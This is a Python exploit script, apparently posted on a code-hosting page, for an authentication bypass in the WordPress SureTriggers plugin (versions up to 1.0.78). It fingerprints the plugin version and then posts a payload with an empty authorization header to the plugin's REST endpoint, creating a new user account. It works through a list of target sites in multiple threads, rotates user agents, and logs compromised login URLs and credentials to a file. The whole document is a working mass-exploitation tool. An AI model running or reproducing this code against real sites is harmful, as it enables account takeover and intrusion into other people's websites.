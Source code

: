 import argparse
import requests
import json
import re
import threading
import random

requests.packages.urllib3.disable_warnings()

user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.1 Safari/605.1.15",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1",
    "Mozilla/5.0 (Linux; Android 10; SM-G973F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Mobile Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
]

DEFAULT_EMAIL = "gmail"
DEFAULT_USERNAME = "username"
DEFAULT_PASSWORD = "password"

def fetch_plugin_version(target_url):
    try:
        readme_url = f"{target_url.rstrip('/')}/wp-content/plugins/suretriggers/readme.txt"
        response = requests.get(readme_url, timeout=10, verify=False)
        if response.status_code == 200:
            match = re.search(r"Stable tag:\s*(\d+\.\d+\.\d+)", response.text)
            if match:
                return match.group(1)
        return None
    except Exception:
        return None

def is_version_vulnerable(version):
    try:
        version_parts = list(map(int, version.split(".")))
        return version_parts <= [1, 0, 78]
    except Exception:
        return False

def wp_login_exists(target_url):
    try:
        wp_login_url = f"{target_url.rstrip('/')}/wp-login.php"
        response = requests.get(wp_login_url, timeout=10, verify=False)

        # Jika status code 200, lanjutkan pengecekan
        if response.status_code == 200:
            # Pastikan halaman berisi form login asli
            if 'name="log"' in response.text and 'name="pwd"' in response.text and 'wp-submit' in response.text:
                # Jika ada elemen modal atau jenis login lainnya, tandakan sebagai login tidak sah
                if any(keyword in response.text for keyword in ["#loginmodal", "#oauth-login", "API Authentication", "Authorization"]):
                    print(f"[-] {target_url} - Invalid login type detected (modal or API auth), skipping save.")
                    return False
                return True
        return False
    except Exception as e:
        print(f"[-] {target_url} - Error: {e}")
        return False

def check_wp_login(target_url, username, password):
    login_url = f"{target_url.rstrip('/')}/wp-login.php"
    payload = {
        'log': username,
        'pwd': password,
        'wp-submit': 'Log In',
        'testcookie': '1'
    }
    response = requests.post(login_url, data=payload, timeout=10, verify=False, allow_redirects=False)
    return response.status_code == 302

def prepare_headers():
    return {
        "User-Agent": random.choice(user_agents),
        "Content-Type": "application/json",
        "st_authorization": ""
    }

def build_payload(email, username, password):
    return {
        "integration": "WordPress",
        "type_event": "create_user_if_not_exists",
        "selected_options": {
            "user_email": email,
            "user_name": username,
            "password": password
        },
        "fields": [],
        "context": {}
    }

def send_exploit_request(endpoint, headers, payload):
    try:
        return requests.post(endpoint, headers=headers, json=payload, timeout=15, verify=False)
    except:
        return None

def handle_response(response, url, username, password):
    if not response:
        print(f"[-] {url} - No response.")
        return
    try:
        response_data = response.json()
        if response_data.get("success"):
            print(f"[+] {url} - Exploit successful! {username}:{password}")
            # Cek apakah wp-login.php valid sebelum menyimpan
            login_url = f"{url.rstrip('/')}/wp-login.php"
            if wp_login_exists(url):
                with open("vulnerable.txt", "a") as f:
                    f.write(f"{login_url} | {username}:{password}\n")
            else:
                print(f"[-] {url} - wp-login.php not valid, skipping save.")
        else:
            print(f"[-] {url} - Exploit failed.")
    except Exception as e:
        print(f"[-] {url} - Failed to parse response. Error: {e}")

def clean_url(url):
    if not url.startswith("http"):
        return "http://" + url
    return url.strip()

def exploit_target(target_url, email, username, password):
    target_url = clean_url(target_url)
    version = fetch_plugin_version(target_url)

    if version and is_version_vulnerable(version):
        print(f"[+] {target_url} - Vulnerable v{version} detected.")
        headers = prepare_headers()
        payload = build_payload(email, username, password)
        endpoint = f"{target_url.rstrip('/')}/wp-json/sure-triggers/v1/automation/action"
        response = send_exploit_request(endpoint, headers, payload)
        handle_response(response, target_url, username, password)
    elif version:
        print(f"[-] {target_url} - Version {version} not vulnerable.")
    else:
        print(f"[~] {target_url} - Could not determine version.")

def main(target_urls, threads):
    with open(target_urls, 'r') as file:
        urls = file.readlines()

    def worker(url):
        exploit_target(url.strip(), DEFAULT_EMAIL, DEFAULT_USERNAME, DEFAULT_PASSWORD)

    thread_list = []
    for url in urls:
        thread = threading.Thread(target=worker, args=(url.strip(),))
        thread_list.append(thread)
        thread.start()
        if len(thread_list) >= threads:
            for t in thread_list:
                t.join()
            thread_list = []

    for t in thread_list:
        t.join()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Exploit SureTriggers Plugin")
    parser.add_argument("-l", "--target_urls", required=True, help="File containing target URLs")
    parser.add_argument("-t", "--threads", type=int, default=5, help="Number of threads to use")
    args = parser.parse_args()

    main(args.target_urls, args.threads)
